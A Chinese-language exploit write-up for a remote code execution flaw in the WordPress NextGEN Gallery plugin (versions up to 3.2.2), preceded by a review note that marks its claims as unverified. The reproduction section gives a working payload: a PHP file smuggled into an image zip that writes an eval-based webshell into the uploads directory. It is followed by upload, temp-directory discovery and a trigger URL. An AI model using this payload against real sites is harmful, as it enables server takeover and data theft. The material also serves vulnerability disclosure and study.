



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.2.2 claimed, fixed3.2.4; user allowed gallery ZIP upload/import-folder browsing; resource-limit interrupted cleanup; PHP execution in uploads

- **适用与权限边界（1）**：未写具体用户角色，后台上传不等于匿名RCE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：800张小图触发崩溃是实验条件而非所有环境必现，需记录内存/超时/清理失败证据。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：为什么3.2.3是否受影响未解释；无官方修复来源。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（4）**：临时目录查找步骤有价值；PHP相对写入路径依执行cwd，缺具体环境说明；尾部孤立image。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress Plugin - NextGEN Gallery \<= 3.2.2 RCE

一、漏洞简介
------------

WordPress插件NextGEN Gallery \<=
3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

    <?php
        file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
    ?>

### 第2步：上传zip压缩包

点击"Add Gallery / Images"然后上传zip压缩包。

### 第3步：查看临时目录

点击"import folder"，再点击"uploads"即可看到解压的临时目录。

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

    http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php

image
